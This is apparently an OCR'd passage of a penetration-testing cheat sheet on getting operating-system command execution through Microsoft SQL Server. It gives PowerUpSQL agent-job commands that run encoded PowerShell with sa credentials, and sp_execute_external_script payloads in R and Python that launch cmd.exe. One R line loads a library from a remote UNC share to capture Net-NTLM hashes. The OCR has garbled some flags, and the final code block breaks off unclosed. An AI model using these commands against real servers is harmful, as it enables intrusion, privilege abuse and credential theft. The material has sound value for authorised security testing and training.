 ```
Invoke-SQLOSCmdAgentJob –Subsystem PowerShell -Username
sa -Password pw -Instance instance -Command
"powershell -e <base64encodedscript>" -Verbose
-Subsystem CmdExec
-ubsystem VBScript
-Subsystem Jscript
```

```
Get-SQLAgentJob -Instance instance -username sa -Password pw -Verboe]se
```

## External Scripting

- R introduced in SQL Server 2016
- Python introduced in SQL Server 2017
- Runtime environments must be installed as a prerequisite. Not on by default. Needs SQL server service restart.
- Needs `sysadmin` privileges to be enabled and executed.
- Runs with privileges of a dynamically created Windows user account (member of the `SQLRUserGroup`).

> https://docs.microsoft.com/en-us/sql/advanced-analytics/tutorials/rtsql-using-r-code-in-transact-sql-quickstart

> https://www.slideshare.net/nullbind/beyond-xpcmdshell-owning-the-empire-through-sql-server

Executing commands with R:
```
sp_configure 'external scripts enabled'
GO
EXEC sp_execute_external_script
@language=N'R',
@script=N'OutputDataSet <- data.frame(system("cmd.exe
/c dir",intern=T))'
WITH RESULT SETS (([cmd_out] text));
GO
```

Grab Net-NTLM hashes with R:
```
@script=N'.libPaths("\\\\testhost\\foo\\bar");library("0mgh4x")'
```

Using shell instead of system:
```
@script=N'OutputDataSet <- data.frame(shell("dir",intern=T))'
```
> https://pastebin.com/zBDnzELT

Executing commands with Python:
```
EXEC sp_execute_external_script
@language =N'Python',
@script=N'import subprocess
p = subprocess.Popen("cmd.exe /c whoami",
stdout=subprocess.PIPE)
OutputDataSet = pandas.DataFrame([str(p.stdout.read(),
"utf-8")])'
WITH RESULT SETS (([cmd_out] nvarchar(max)))
Reference:
```

